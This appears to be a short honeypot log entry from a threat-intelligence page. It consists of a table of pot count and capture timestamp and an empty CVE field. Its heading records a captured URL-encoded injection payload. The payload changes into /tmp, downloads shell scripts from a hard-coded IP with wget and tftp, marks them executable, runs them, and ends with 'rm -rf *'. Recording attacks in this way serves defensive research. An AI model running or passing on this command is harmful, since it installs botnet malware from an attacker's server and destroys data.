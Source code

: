 # Analysis for /cd%20/tmp%20%7C%7C%20cd%20/run%20%7C%7C%20cd%20/;%20wget%20http://107.173.181.13/Intg420bins.sh;%20chmod%20777%20Intg420bins.sh;%20sh%20Intg420bins.sh;%20tftp%20107.173.181.13%20-c%20get%20Intg420tftp1.sh;%20chmod%20777%20Intg420tftp1.sh;%20sh%20Intg420tftp1.sh;%20tftp%20-r%20Intg420tftp2.sh%20-g%20107.173.181.13;%20chmod%20777%20Intg420tftp2.sh;%20sh%20Intg420tftp2.sh;%20rm%20-rf%20Intg420bins.sh%20Intg420tftp1.sh%20Intg420tftp2.sh;%20rm%20-rf%20*
| POTS | COUNT | CVE | FILE CREATED |
|---|---|---|---|
| 1 | 1 | | 220110-033755 |

## CVE: 
